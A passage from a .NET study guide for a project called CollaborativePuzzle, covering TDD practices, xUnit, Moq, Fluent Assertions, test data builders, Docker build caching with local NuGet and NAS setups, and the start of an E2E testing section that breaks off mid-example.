    var puzzle = new PuzzleBuilder()
        .WithId(Guid.NewGuid())
        .WithPieces(500)
        .WithDifficulty(PuzzleDifficulty.Hard)
        .Build();
}
```

#### 3. Test Doubles Strategy
```csharp
// Stub - Returns canned responses
mockRepo.Setup(x => x.GetPuzzleAsync(It.IsAny<Guid>()))
    .ReturnsAsync(new Puzzle { Id = puzzleId });

// Mock - Verifies interactions
mockLogger.Verify(x => x.LogInformation(
    It.IsAny<string>(), It.IsAny<object[]>()), Times.Once);

// Spy - Records interactions for later verification
var spy = new EmailServiceSpy();
await service.SendCompletionEmailAsync(userId);
spy.SentEmails.Should().ContainSingle();

// Fake - Working implementation for testing
var fakeCache = new InMemoryCache();
var service = new PuzzleService(realRepo, fakeCache);
```

### Common TDD Anti-Patterns to Avoid

#### 1. Testing Implementation Details
```csharp
// BAD - Tests internal implementation
[Fact]
public void BadTest_ChecksPrivateMethod()
{
    var service = new PuzzleService();
    var privateMethod = service.GetType()
        .GetMethod("CalculateInternalScore", BindingFlags.NonPublic);
    // Don't do this!
}

// GOOD - Tests behavior through public API
[Fact]
public void GoodTest_ChecksPublicBehavior()
{
    var result = service.CalculateScore(moves: 100, time: TimeSpan.FromMinutes(5));
    result.Should().Be(850);
}
```

#### 2. Overly Coupled Tests
```csharp
// BAD - Test depends on database, file system, network
[Fact]
public async Task BadTest_DependsOnEverything()
{
    var service = new PuzzleService(); // Uses real dependencies
    await service.CreatePuzzleFromImageAsync("C:\\real-file.jpg");
}

// GOOD - Test isolates the unit under test
[Fact]
public async Task GoodTest_IsolatedUnit()
{
    var mockStorage = new Mock<IBlobStorage>();
    var mockImageProcessor = new Mock<IImageProcessor>();
    var service = new PuzzleService(mockStorage.Object, mockImageProcessor.Object);
    
    await service.CreatePuzzleFromImageAsync(testImageStream);
}
```

### TDD Mindset Principles

1. **YAGNI (You Aren't Gonna Need It)**: Only implement what the current test requires
2. **KISS (Keep It Simple, Stupid)**: Write the simplest code that makes the test pass
3. **DRY (Don't Repeat Yourself)**: Extract common code during refactoring phase
4. **Single Responsibility**: Each test should verify one behavior
5. **Fast Feedback**: Tests should run quickly (milliseconds, not seconds)

### TDD Benefits for CollaborativePuzzle

1. **Confidence in Refactoring**: Can safely optimize SignalR hub implementations
2. **Living Documentation**: Tests document how the puzzle mechanics work
3. **Design Feedback**: Tests reveal when abstractions are needed
4. **Regression Prevention**: Ensures puzzle logic remains stable
5. **Collaboration**: Team members understand intended behavior from tests

### Getting Started with TDD

```bash
# 1. Create a new test file
touch tests/CollaborativePuzzle.Tests/Services/NewFeatureTests.cs

# 2. Write your first failing test
dotnet test # Should show 1 failed test

# 3. Implement just enough to pass
dotnet test # Should show 1 passed test

# 4. Refactor with confidence
dotnet test # Should still pass

# 5. Repeat for next behavior
```

Remember: **TDD is not about testing, it's about design.** The tests are a pleasant side effect of designing your code incrementally with fast feedback.

## 17. Define xUnit, Moq and Fluent Assertions. How does Fluent databuilders work? How do they help TDD-based development? What other tools are important for .NET Core development with TDD?

These tools form the foundation of modern .NET testing and are essential for effective TDD in the CollaborativePuzzle project.

### xUnit - Modern Testing Framework

**xUnit** is a modern, extensible testing framework that's become the de facto standard for .NET Core projects.

#### Key Features and Concepts

**1. Test Attributes:**
```csharp
public class PuzzleServiceTests
{
    [Fact] // Simple test - always runs
    public void Puzzle_ShouldHaveUniqueId()
    {
        var puzzle = new Puzzle();
        puzzle.Id.Should().NotBeEmpty();
    }
    
    [Theory] // Parameterized test - runs multiple times with different data
    [InlineData(100, PuzzleDifficulty.Easy)]
    [InlineData(500, PuzzleDifficulty.Medium)]
    [InlineData(1000, PuzzleDifficulty.Hard)]
    public void PieceCount_ShouldDetermineDifficulty(int pieces, PuzzleDifficulty expected)
    {
        var puzzle = new Puzzle { PieceCount = pieces };
        var difficulty = PuzzleService.CalculateDifficulty(puzzle);
        difficulty.Should().Be(expected);
    }
    
    [Theory]
    [MemberData(nameof(InvalidPuzzleData))] // Data from method
    public void CreatePuzzle_WithInvalidData_ShouldThrow(CreatePuzzleRequest request)
    {
        var service = new PuzzleService();
        service.Invoking(s => s.CreatePuzzle(request))
            .Should().Throw<ValidationException>();
    }
    
    public static IEnumerable<object[]> InvalidPuzzleData =>
        new List<object[]>
        {
            new object[] { new CreatePuzzleRequest { PieceCount = -1 } },
            new object[] { new CreatePuzzleRequest { Title = "" } },
            new object[] { new CreatePuzzleRequest { ImageUrl = null } }
        };
}
```

**2. Test Lifecycle and Fixtures:**
```csharp
// Runs once per test (new instance for each test)
public class PuzzleHubTests : IDisposable
{
    private readonly TestServer _server;
    private readonly HttpClient _client;
    
    public PuzzleHubTests()
    {
        // Setup - runs before each test
        _server = new TestServer(new WebHostBuilder()
            .UseStartup<TestStartup>());
        _client = _server.CreateClient();
    }
    
    public void Dispose()
    {
        // Cleanup - runs after each test
        _client?.Dispose();
        _server?.Dispose();
    }
}

// Shared context across multiple tests
public class DatabaseFixture : IDisposable
{
    public SqlConnection Connection { get; private set; }
    
    public DatabaseFixture()
    {
        Connection = new SqlConnection("Server=(localdb)\\mssqllocaldb;Database=PuzzleTestDb;");
        // Initialize test database once
    }
    
    public void Dispose() => Connection?.Dispose();
}

// Using shared fixture
public class PuzzleRepositoryTests : IClassFixture<DatabaseFixture>
{
    private readonly DatabaseFixture _fixture;
    
    public PuzzleRepositoryTests(DatabaseFixture fixture)
    {
        _fixture = fixture;
    }
}
```

**3. Async Test Support:**
```csharp
[Fact]
public async Task JoinSession_ShouldAddUserToSession()
{
    // xUnit natively supports async/await
    var hub = new PuzzleHub();
    await hub.JoinSessionAsync(sessionId);
    
    var participants = await hub.GetParticipantsAsync(sessionId);
    participants.Should().Contain(p => p.UserId == userId);
}
```

### Moq - Mocking Framework

**Moq** provides a fluent API for creating test doubles (mocks, stubs, spies) in .NET.

#### Core Concepts and Patterns

**1. Basic Mocking:**
```csharp
[Fact]
public async Task LockPiece_ShouldCheckCurrentLockStatus()
{
    // Arrange
    var mockRepo = new Mock<IPieceRepository>();
    var mockRedis = new Mock<IRedisService>();
    
    // Setup stub behavior
    mockRepo.Setup(x => x.GetPieceAsync(It.IsAny<Guid>()))
        .ReturnsAsync(new PuzzlePiece { Id = pieceId, IsLocked = false });
    
    // Setup mock expectation
    mockRedis.Setup(x => x.AcquireLockAsync(
        It.Is<string>(key => key.Contains(pieceId.ToString())),
        It.IsAny<TimeSpan>()))
        .ReturnsAsync(true);
    
    var service = new PuzzleService(mockRepo.Object, mockRedis.Object);
    
    // Act
    var result = await service.LockPieceAsync(pieceId, userId);
    
    // Assert
    result.Should().BeTrue();
    
    // Verify mock was called correctly
    mockRedis.Verify(x => x.AcquireLockAsync(
        It.Is<string>(key => key == $"puzzle:piece:{pieceId}:lock"),
        It.Is<TimeSpan>(t => t == TimeSpan.FromMinutes(5))),
        Times.Once);
}
```

**2. Advanced Mocking Scenarios:**
```csharp
public class NotificationServiceTests
{
    [Fact]
    public async Task NotifyPieceMove_ShouldSendToAllExceptMover()
    {
        // Setup with callbacks
        var notifiedUsers = new List<Guid>();
        var mockHub = new Mock<IHubContext<PuzzleHub>>();
        
        mockHub.Setup(x => x.Clients.User(It.IsAny<string>()))
            .Returns((string userId) =>
            {
                notifiedUsers.Add(Guid.Parse(userId));
                return Mock.Of<IClientProxy>();
            });
        
        // Sequence verification
        var mockSequence = new MockSequence();
        mockRepo.InSequence(mockSequence)
            .Setup(x => x.BeginTransactionAsync())
            .ReturnsAsync(Mock.Of<IDbTransaction>());
        mockRepo.InSequence(mockSequence)
            .Setup(x => x.UpdatePieceAsync(It.IsAny<PuzzlePiece>()))
            .ReturnsAsync(true);
        mockRepo.InSequence(mockSequence)
            .Setup(x => x.CommitTransactionAsync())
            .Returns(Task.CompletedTask);
    }
    
    [Fact]
    public void Configure_ShouldSetupDependencies()
    {
        // Property setup
        var mockConfig = new Mock<IConfiguration>();
        mockConfig.SetupGet(x => x["Redis:ConnectionString"])
            .Returns("localhost:6379");
        mockConfig.Setup(x => x.GetSection("Puzzle"))
            .Returns(Mock.Of<IConfigurationSection>(s => 
                s["MaxPieces"] == "1000" &&
                s["DefaultDifficulty"] == "Medium"));
    }
}
```

**3. Behavior Verification Patterns:**
```csharp
// Strict mocks - fail if unexpected calls
var strictMock = new Mock<IService>(MockBehavior.Strict);
strictMock.Setup(x => x.GetDataAsync()).ReturnsAsync("data");

// Loose mocks - return default values
var looseMock = new Mock<IService>(MockBehavior.Loose);

// Capture arguments
string capturedKey = null;
mockCache.Setup(x => x.SetAsync(It.IsAny<string>(), It.IsAny<object>()))
    .Callback<string, object>((key, value) => capturedKey = key)
    .Returns(Task.CompletedTask);

// Conditional returns
mockService.Setup(x => x.ProcessAsync(It.IsAny<int>()))
    .ReturnsAsync((int value) => value > 100 ? "large" : "small");
```

### Fluent Assertions - Readable Test Assertions

**Fluent Assertions** provides a natural language syntax for test assertions, making tests more readable and providing better failure messages.

#### Key Features and Patterns

**1. Basic Assertions:**
```csharp
// Object assertions
puzzle.Should().NotBeNull();
puzzle.Id.Should().NotBeEmpty();
puzzle.Title.Should().Be("Mountain Landscape");
puzzle.PieceCount.Should().BeInRange(100, 1000);

// Collection assertions
pieces.Should().HaveCount(500);
pieces.Should().OnlyHaveUniqueItems();
pieces.Should().ContainSingle(p => p.IsCornerPiece);
pieces.Should().AllSatisfy(p => p.SessionId == sessionId);

// String assertions
result.Should().StartWith("puzzle");
result.Should().MatchRegex(@"^puzzle-\d{4}$");
errorMessage.Should().ContainEquivalentOf("invalid", AtLeast.Once());

// Numeric assertions
score.Should().BeApproximately(850.5, precision: 0.1);
percentage.Should().BeInRange(0, 100);
```

**2. Exception Assertions:**
```csharp
// Simple exception
service.Invoking(s => s.DeletePuzzle(Guid.Empty))
    .Should().Throw<ArgumentException>();

// Specific exception with message
service.Invoking(s => s.CreatePuzzle(null))
    .Should().Throw<ValidationException>()
    .WithMessage("*cannot be null*")
    .And.ParamName.Should().Be("request");

// Async exceptions
await service.Invoking(s => s.ProcessAsync())
    .Should().ThrowAsync<TimeoutException>();

// No exceptions
service.Invoking(s => s.SafeOperation())
    .Should().NotThrow();
```

**3. Complex Object Comparisons:**
```csharp
// Object graph comparison
actualPuzzle.Should().BeEquivalentTo(expectedPuzzle, options => options
    .Excluding(p => p.CreatedAt)
    .Excluding(p => p.UpdatedAt)
    .Using<DateTime>(ctx => ctx.Subject.Should().BeCloseTo(ctx.Expectation, 1000))
        .WhenTypeIs<DateTime>()
    .WithStrictOrdering() // For collections
);

// Partial matching
result.Should().BeEquivalentTo(new
{
    Success = true,
    Data = new { PuzzleId = expectedId }
}, options => options.ExcludingMissingMembers());
```

### Fluent Data Builders

**Fluent Data Builders** implement the Builder pattern with a fluent interface for creating test data.

#### Implementation Pattern

```csharp
public class PuzzleBuilder
{
    private readonly Puzzle _puzzle;
    
    public PuzzleBuilder()
    {
        _puzzle = new Puzzle
        {
            Id = Guid.NewGuid(),
            Title = "Test Puzzle",
            PieceCount = 500,
            Difficulty = PuzzleDifficulty.Medium,
            CreatedAt = DateTime.UtcNow,
            IsPublic = true
        };
    }
    
    public PuzzleBuilder WithTitle(string title)
    {
        _puzzle.Title = title;
        return this;
    }
    
    public PuzzleBuilder WithPieces(int count)
    {
        _puzzle.PieceCount = count;
        _puzzle.Pieces = new List<PuzzlePiece>();
        
        for (int i = 0; i < count; i++)
        {
            _puzzle.Pieces.Add(new PuzzlePieceBuilder()
                .ForPuzzle(_puzzle.Id)
                .AtPosition(i % 25, i / 25)
                .Build());
        }
        
        return this;
    }
    
    public PuzzleBuilder WithDifficulty(PuzzleDifficulty difficulty)
    {
        _puzzle.Difficulty = difficulty;
        _puzzle.EstimatedCompletionMinutes = difficulty switch
        {
            PuzzleDifficulty.Easy => 30,
            PuzzleDifficulty.Medium => 60,
            PuzzleDifficulty.Hard => 120,
            _ => 60
        };
        return this;
    }
    
    public PuzzleBuilder AsPrivate()
    {
        _puzzle.IsPublic = false;
        return this;
    }
    
    public PuzzleBuilder WithSession(Action<PuzzleSessionBuilder> configure = null)
    {
        var sessionBuilder = new PuzzleSessionBuilder().ForPuzzle(_puzzle.Id);
        configure?.Invoke(sessionBuilder);
        _puzzle.Sessions.Add(sessionBuilder.Build());
        return this;
    }
    
    public Puzzle Build() => _puzzle;
    
    // Implicit conversion for convenience
    public static implicit operator Puzzle(PuzzleBuilder builder) => builder.Build();
}

// Usage in tests
[Fact]
public async Task CompletePuzzle_ShouldCalculateScore()
{
    // Arrange
    var puzzle = new PuzzleBuilder()
        .WithTitle("Test Puzzle")
        .WithPieces(500)
        .WithDifficulty(PuzzleDifficulty.Hard)
        .WithSession(session => session
            .WithParticipants(3)
            .StartedMinutesAgo(45)
            .WithCompletedPieces(500))
        .Build();
    
    // Act
    var score = await scoreService.CalculateScore(puzzle);
    
    // Assert
    score.Should().BeGreaterThan(1000);
}
```

### Additional TDD Tools for .NET Core

#### 1. TestContainers
```csharp
public class IntegrationTestBase : IAsyncLifetime
{
    private readonly MsSqlContainer _sqlContainer;
    private readonly RedisContainer _redisContainer;
    
    public IntegrationTestBase()
    {
        _sqlContainer = new MsSqlBuilder()
            .WithImage("mcr.microsoft.com/mssql/server:2022-latest")
            .WithPassword("Test@123")
            .Build();
            
        _redisContainer = new RedisBuilder()
            .WithImage("redis:7-alpine")
            .Build();
    }
    
    public async Task InitializeAsync()
    {
        await _sqlContainer.StartAsync();
        await _redisContainer.StartAsync();
        
        ConnectionString = _sqlContainer.GetConnectionString();
        RedisConnection = _redisContainer.GetConnectionString();
    }
    
    public async Task DisposeAsync()
    {
        await _sqlContainer.DisposeAsync();
        await _redisContainer.DisposeAsync();
    }
}
```

#### 2. Bogus - Realistic Test Data
```csharp
public static class TestDataGenerator
{
    private static readonly Faker _faker = new();
    
    public static User GenerateUser() => new Faker<User>()
        .RuleFor(u => u.Id, f => f.Random.Guid())
        .RuleFor(u => u.Username, f => f.Internet.UserName())
        .RuleFor(u => u.Email, f => f.Internet.Email())
        .RuleFor(u => u.DisplayName, f => f.Name.FullName())
        .RuleFor(u => u.CreatedAt, f => f.Date.Past(1));
        
    public static List<PuzzlePiece> GeneratePieces(int count) =>
        new Faker<PuzzlePiece>()
            .RuleFor(p => p.Id, f => f.Random.Guid())
            .RuleFor(p => p.XPosition, f => f.Random.Int(0, 1000))
            .RuleFor(p => p.YPosition, f => f.Random.Int(0, 1000))
            .RuleFor(p => p.Rotation, f => f.PickRandom(0, 90, 180, 270))
            .Generate(count);
}
```

#### 3. AutoFixture - Convention-based Test Data
```csharp
[Theory]
[AutoData] // Automatically generates test data
public void CreatePuzzle_ShouldSetDefaults(
    string title, // AutoFixture generates these
    int pieceCount,
    User creator)
{
    var puzzle = new Puzzle(title, pieceCount, creator);
    
    puzzle.Title.Should().Be(title);
    puzzle.PieceCount.Should().Be(pieceCount);
    puzzle.CreatedByUser.Should().Be(creator);
}

// Custom conventions
public class PuzzleCustomization : ICustomization
{
    public void Customize(IFixture fixture)
    {
        fixture.Customize<Puzzle>(c => c
            .With(p => p.PieceCount, fixture.Create<Generator<int>>()
                .Where(x => x >= 100 && x <= 1000).First())
            .Without(p => p.Pieces)); // Avoid circular references
    }
}
```

#### 4. Snapshot Testing with Verify
```csharp
[Fact]
public async Task GeneratePuzzleData_ShouldMatchSnapshot()
{
    // Arrange
    var generator = new PuzzleGenerator();
    
    // Act
    var puzzleData = await generator.GenerateFromImage("test.jpg");
    
    // Assert - compares with stored snapshot
    await Verify(puzzleData);
}
```

### How These Tools Support TDD

1. **Fast Feedback Loop**: xUnit's parallel execution and Moq's in-memory mocks
2. **Readable Tests**: Fluent Assertions make intent clear
3. **Maintainable Tests**: Builders reduce test setup duplication
4. **Isolated Tests**: Moq ensures true unit testing
5. **Realistic Scenarios**: Bogus and AutoFixture provide varied test data
6. **Integration Testing**: TestContainers enable full-stack TDD

### Best Practices Integration

```csharp
public class PuzzleServiceTests : IntegrationTestBase
{
    private readonly IFixture _fixture;
    
    public PuzzleServiceTests()
    {
        _fixture = new Fixture().Customize(new PuzzleCustomization());
    }
    
    [Fact]
    public async Task FullScenario_CreateAndSolvePuzzle()
    {
        // Arrange - Use builders for clarity
        var puzzle = new PuzzleBuilder()
            .WithPieces(500)
            .Build();
            
        var participants = _fixture.CreateMany<User>(3);
        
        // Act - Test the full workflow
        var session = await _puzzleService.CreateSessionAsync(puzzle.Id);
        
        foreach (var user in participants)
        {
            await _puzzleService.JoinSessionAsync(session.Id, user.Id);
        }
        
        // Simulate solving
        foreach (var piece in puzzle.Pieces)
        {
            var user = participants[Random.Shared.Next(participants.Count)];
            await _puzzleService.PlacePieceAsync(piece.Id, piece.CorrectX, piece.CorrectY, user.Id);
        }
        
        // Assert - Use fluent assertions
        session.Status.Should().Be(SessionStatus.Completed);
        session.CompletionTime.Should().NotBeNull();
        session.Participants.Should().AllSatisfy(p => 
            p.PiecesPlaced.Should().BeGreaterThan(0));
    }
}
```

## 18. Explain how to minimize Docker build time with caching and package management. Can we host a local NuGet for oft-used packages? Would a local NAS improve things?

Docker build optimization is crucial for developer productivity and CI/CD efficiency. For the CollaborativePuzzle project, proper caching strategies can reduce build times from minutes to seconds.

### Docker Build Caching Fundamentals

Docker builds images in layers, and each instruction creates a new layer. Understanding this is key to optimization.

#### Layer Caching Strategy

**Optimized Dockerfile for CollaborativePuzzle:**
```dockerfile
# Stage 1: Base image with common dependencies
FROM mcr.microsoft.com/dotnet/aspnet:9.0 AS base
WORKDIR /app
EXPOSE 80
EXPOSE 443

# Stage 2: Build environment with SDK
FROM mcr.microsoft.com/dotnet/sdk:9.0 AS build
WORKDIR /src

# Copy only package files first (leverage caching)
COPY ["Directory.Packages.props", "./"]
COPY ["Directory.Build.props", "./"]
COPY ["src/CollaborativePuzzle.Api/CollaborativePuzzle.Api.csproj", "src/CollaborativePuzzle.Api/"]
COPY ["src/CollaborativePuzzle.Core/CollaborativePuzzle.Core.csproj", "src/CollaborativePuzzle.Core/"]
COPY ["src/CollaborativePuzzle.Infrastructure/CollaborativePuzzle.Infrastructure.csproj", "src/CollaborativePuzzle.Infrastructure/"]
COPY ["src/CollaborativePuzzle.Hubs/CollaborativePuzzle.Hubs.csproj", "src/CollaborativePuzzle.Hubs/"]

# Restore packages (cached if .csproj files haven't changed)
RUN dotnet restore "src/CollaborativePuzzle.Api/CollaborativePuzzle.Api.csproj" \
    --use-lock-file \
    --locked-mode

# Copy source code (only after restore)
COPY src/ src/

# Build the application
WORKDIR "/src/src/CollaborativePuzzle.Api"
RUN dotnet build "CollaborativePuzzle.Api.csproj" \
    -c Release \
    -o /app/build \
    --no-restore

# Stage 3: Publish
FROM build AS publish
RUN dotnet publish "CollaborativePuzzle.Api.csproj" \
    -c Release \
    -o /app/publish \
    --no-restore \
    --no-build \
    /p:UseAppHost=false

# Stage 4: Final runtime image
FROM base AS final
WORKDIR /app

# Install runtime dependencies
RUN apt-get update && apt-get install -y \
    curl \
    && rm -rf /var/lib/apt/lists/*

# Copy published application
COPY --from=publish /app/publish .

# Create non-root user
RUN useradd -m -s /bin/bash puzzleuser && \
    chown -R puzzleuser:puzzleuser /app
USER puzzleuser

ENTRYPOINT ["dotnet", "CollaborativePuzzle.Api.dll"]
```

### Package Management Optimization

#### 1. NuGet Package Lock Files

**Enable Package Lock Files:**
```xml
<!-- Directory.Build.props -->
<Project>
  <PropertyGroup>
    <RestorePackagesWithLockFile>true</RestorePackagesWithLockFile>
    <RestoreLockedMode Condition="'$(CI)' == 'true'">true</RestoreLockedMode>
  </PropertyGroup>
</Project>
```

**Benefits:**
- Deterministic restores
- Faster CI builds
- Prevents unexpected package updates

#### 2. Central Package Management

**Directory.Packages.props:**
```xml
<Project>
  <PropertyGroup>
    <ManagePackageVersionsCentrally>true</ManagePackageVersionsCentrally>
  </PropertyGroup>
  
  <ItemGroup>
    <!-- Core packages -->
    <PackageVersion Include="Microsoft.AspNetCore.SignalR.Client" Version="9.0.0" />
    <PackageVersion Include="StackExchange.Redis" Version="2.8.0" />
    <PackageVersion Include="Microsoft.EntityFrameworkCore.SqlServer" Version="9.0.0" />
    
    <!-- Test packages -->
    <PackageVersion Include="xunit" Version="2.6.2" />
    <PackageVersion Include="Moq" Version="4.20.69" />
    <PackageVersion Include="FluentAssertions" Version="7.0.0" />
  </ItemGroup>
</Project>
```

### Local NuGet Server Solutions

#### 1. BaGet - Lightweight NuGet Server

**Docker Compose Setup:**
```yaml
version: '3.8'
services:
  baget:
    image: loicsharma/baget:latest
    container_name: puzzle-nuget
    ports:
      - "5000:80"
    environment:
      - ApiKey=${NUGET_API_KEY}
      - Storage__Type=FileSystem
      - Storage__Path=/var/baget/packages
      - Database__Type=Sqlite
      - Database__ConnectionString=Data Source=/var/baget/db/baget.db
    volumes:
      - nuget-packages:/var/baget/packages
      - nuget-db:/var/baget/db
    networks:
      - puzzle-network

volumes:
  nuget-packages:
    driver: local
    driver_opts:
      type: nfs
      o: addr=nas.local,rw,nolock
      device: ":/volume1/docker/nuget/packages"
  nuget-db:
    driver: local

networks:
  puzzle-network:
    driver: bridge
```

**Configure NuGet Client:**
```xml
<!-- nuget.config -->
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <packageSources>
    <clear />
    <add key="LocalNuGet" value="http://puzzle-nuget:5000/v3/index.json" />
    <add key="nuget.org" value="https://api.nuget.org/v3/index.json" />
  </packageSources>
  
  <packageSourceCredentials>
    <LocalNuGet>
      <add key="Username" value="docker" />
      <add key="ClearTextPassword" value="${NUGET_API_KEY}" />
    </LocalNuGet>
  </packageSourceCredentials>
  
  <packageSourceMapping>
    <!-- Internal packages from local server -->
    <packageSource key="LocalNuGet">
      <package pattern="CollaborativePuzzle.*" />
      <package pattern="CompanyShared.*" />
    </packageSource>
    
    <!-- Everything else from nuget.org -->
    <packageSource key="nuget.org">
      <package pattern="*" />
    </packageSource>
  </packageSourceMapping>
</configuration>
```

#### 2. Sonatype Nexus Repository

**Enterprise Setup with Caching Proxy:**
```yaml
services:
  nexus:
    image: sonatype/nexus3:latest
    container_name: nexus-repo
    ports:
      - "8081:8081"
      - "8082:8082" # Docker registry
      - "8083:8083" # NuGet repository
    environment:
      - NEXUS_CONTEXT=nexus
    volumes:
      - nexus-data:/nexus-data
    deploy:
      resources:
        limits:
          memory: 4G
        reservations:
          memory: 2G
```

**Repository Configuration Script:**
```groovy
// nexus-setup.groovy
repository.createNugetProxy(
    'nuget-proxy',
    'https://api.nuget.org/v3/index.json',
    BlobStoreManager.DEFAULT_BLOBSTORE_NAME
)

repository.createNugetHosted(
    'nuget-internal',
    BlobStoreManager.DEFAULT_BLOBSTORE_NAME
)

repository.createNugetGroup(
    'nuget-all',
    ['nuget-internal', 'nuget-proxy'],
    BlobStoreManager.DEFAULT_BLOBSTORE_NAME
)
```

### NAS Integration for Build Optimization

#### 1. Docker Build Cache on NAS

**BuildKit with NAS Cache:**
```bash
# Enable BuildKit
export DOCKER_BUILDKIT=1

# Configure registry cache on NAS
docker buildx create \
  --name puzzle-builder \
  --driver docker-container \
  --driver-opt network=host \
  --config /etc/buildkitd.toml

# buildkitd.toml
[worker.oci]
  gc = true
  gckeepstorage = 50000 # 50GB

[registry."docker.io"]
  mirrors = ["nas.local:5000"]
  
[[registry."nas.local:5000".tls]]
  insecure = true
```

**Build with NAS Cache:**
```bash
# Build with cache export
docker buildx build \
  --cache-to type=registry,ref=nas.local:5000/puzzle-cache:latest,mode=max \
  --cache-from type=registry,ref=nas.local:5000/puzzle-cache:latest \
  --platform linux/amd64,linux/arm64 \
  --tag puzzleapp:latest \
  --push .
```

#### 2. Shared Package Cache

**NFS Mount for Package Cache:**
```yaml
# docker-compose.override.yml
services:
  api:
    build:
      context: .
      dockerfile: Dockerfile
      cache_from:
        - type=registry,ref=nas.local:5000/puzzle-cache
      args:
        - NUGET_PACKAGES=/nuget-cache
    volumes:
      - type: volume
        source: nuget-cache
        target: /nuget-cache
        volume:
          driver: local
          driver_opts:
            type: nfs
            o: addr=nas.local,nolock,soft,rw
            device: ":/volume1/docker/nuget-cache"
```

### Multi-Stage Build Optimization

**Advanced Caching Strategies:**
```dockerfile
# Dependency cache stage
FROM mcr.microsoft.com/dotnet/sdk:9.0 AS deps-cache
WORKDIR /cache
COPY *.csproj ./
COPY Directory.*.props ./
RUN --mount=type=cache,target=/root/.nuget/packages \
    --mount=type=cache,target=/tmp/NuGetScratch \
    dotnet restore

# Source cache stage
FROM deps-cache AS source-cache
COPY . .
RUN --mount=type=cache,target=/root/.nuget/packages \
    dotnet build --no-restore

# Test runner stage (parallel)
FROM source-cache AS test-runner
RUN --mount=type=cache,target=/root/.nuget/packages \
    dotnet test --no-build --parallel

# Publish stage
FROM source-cache AS publish
RUN --mount=type=cache,target=/root/.nuget/packages \
    dotnet publish -c Release --no-build -o /app/publish
```

### CI/CD Pipeline Optimization

**GitHub Actions with Caching:**
```yaml
name: Build and Push

on: [push, pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v4
    
    - name: Set up Docker Buildx
      uses: docker/setup-buildx-action@v3
      with:
        driver-opts: |
          network=host
          image=moby/buildkit:master
        buildkitd-flags: --debug
        
    - name: Login to Local Registry
      uses: docker/login-action@v3
      with:
        registry: nas.local:5000
        username: ${{ secrets.NAS_USER }}
        password: ${{ secrets.NAS_PASSWORD }}
    
    - name: Build and push
      uses: docker/build-push-action@v5
      with:
        context: .
        push: true
        tags: |
          nas.local:5000/puzzleapp:latest
          nas.local:5000/puzzleapp:${{ github.sha }}
        cache-from: |
          type=registry,ref=nas.local:5000/puzzleapp:buildcache
        cache-to: |
          type=registry,ref=nas.local:5000/puzzleapp:buildcache,mode=max
        build-args: |
          NUGET_SOURCE=http://nas.local:8083/repository/nuget-all/index.json
```

### Performance Metrics and Monitoring

**Build Time Analysis:**
```bash
# Analyze build performance
docker buildx build \
  --progress=plain \
  --metadata-file metadata.json \
  . 2>&1 | tee build.log

# Parse build times
cat metadata.json | jq '.buildx.build.duration'
```

**Monitoring Dashboard:**
```csharp
public class BuildMetricsCollector
{
    public async Task CollectBuildMetrics(BuildInfo build)
    {
        var metrics = new BuildMetrics
        {
            TotalDuration = build.Duration,
            RestoreTime = build.Stages["restore"].Duration,
            CompileTime = build.Stages["build"].Duration,
            TestTime = build.Stages["test"].Duration,
            CacheHitRate = CalculateCacheHitRate(build),
            ImageSize = build.FinalImageSize,
            LayerCount = build.Layers.Count
        };
        
        await _telemetry.TrackBuildMetrics(metrics);
    }
}
```

### Best Practices Summary

1. **Layer Ordering**: Put least-changing items first (OS packages → NuGet restore → source copy → build)
2. **Multi-Stage Builds**: Separate build dependencies from runtime
3. **Cache Mounts**: Use BuildKit cache mounts for package directories
4. **Local Registry**: Host frequently-used packages locally
5. **NAS Benefits**: Shared cache across team, persistent storage, faster than internet
6. **Lock Files**: Use package lock files for reproducible builds
7. **Parallel Builds**: Run tests and other tasks in parallel stages
8. **Minimal Images**: Use distroless or Alpine for smaller final images

### Cost-Benefit Analysis

```yaml
Without Optimization:
  - Full rebuild: 8-10 minutes
  - Package restore: 3-4 minutes
  - Network usage: 500MB per build
  - Developer time: High frustration

With Local NuGet + NAS:
  - Full rebuild: 2-3 minutes
  - Package restore: 10-20 seconds
  - Network usage: 50MB per build
  - Setup cost: ~$500 for NAS + 2 hours setup
  - ROI: 2 weeks for 10-developer team
```

## 19. What are E2E tests?

**End-to-End (E2E) tests** verify that an application works correctly from the user's perspective by testing complete user workflows across all layers of the system. For CollaborativePuzzle, this means testing the entire puzzle-solving experience from login to completion.

### E2E Testing Fundamentals

E2E tests differ from unit and integration tests by:
- Testing the entire application stack
- Simulating real user interactions
- Verifying business workflows
- Running in production-like environments

### E2E Test Architecture for CollaborativePuzzle

**Test Infrastructure:**
```csharp
public class PuzzleE2ETestBase : IAsyncLifetime
{
    protected IWebDriver Driver { get; private set; }
    protected TestServer Server { get; private set; }
    protected string BaseUrl { get; private set; }
    
    public async Task InitializeAsync()
    {
        // Start test containers
        var sqlContainer = new MsSqlBuilder()
            .WithImage("mcr.microsoft.com/mssql/server:2022-latest")
            .Build();
        await sqlContainer.StartAsync();
        
        var redisContainer = new RedisBuilder()
            .WithImage("redis:7-alpine")
            .Build();
        await redisContainer.StartAsync();
        
        // Configure test server
        var hostBuilder = new WebHostBuilder()
            .UseStartup<TestStartup>()
            .ConfigureServices(services =>
            {
                services.AddSingleton<IConnectionMultiplexer>(
                    ConnectionMultiplexer.Connect(redisContainer.GetConnectionString()));
            })
            .UseEnvironment("E2ETesting");
            
        Server = new TestServer(hostBuilder);
        BaseUrl = Server.BaseAddress.ToString();
        
        // Initialize WebDriver
        var chromeOptions = new ChromeOptions();
        chromeOptions.AddArguments("--headless", "--no-sandbox", "--disable-dev-shm-usage");
        Driver = new ChromeDriver(chromeOptions);
        
        // Seed test data
        await SeedTestDataAsync();
    }
    
    public async Task DisposeAsync()
    {
        Driver?.Quit();
        Server?.Dispose();
        await CleanupTestDataAsync();
    }
}
```

### Comprehensive E2E Test Examples

#### 1. Complete Puzzle Solving Workflow

```csharp
[Fact]
public async Task CompletePuzzleSolving_MultipleUsers_ShouldSynchronize()
{
    // Arrange - Setup two browser sessions
    using var driver1 = CreateWebDriver();
    using var driver2 = CreateWebDriver();
    
    var puzzleId = await CreateTestPuzzleAsync(pieceCount: 100);
    
    // Act - User 1 creates session and starts solving
    driver1.Navigate().GoToUrl($"{BaseUrl}/puzzle/{puzzleId}");
    
    var createSessionButton = driver1.FindElement(By.Id("create-session"));
    createSessionButton.Click();
    
    var sessionCode = driver1.FindElement(By.Id("session-code")).Text;
    
    // User 2 joins the session
    driver2.Navigate().GoToUrl($"{BaseUrl}/join");
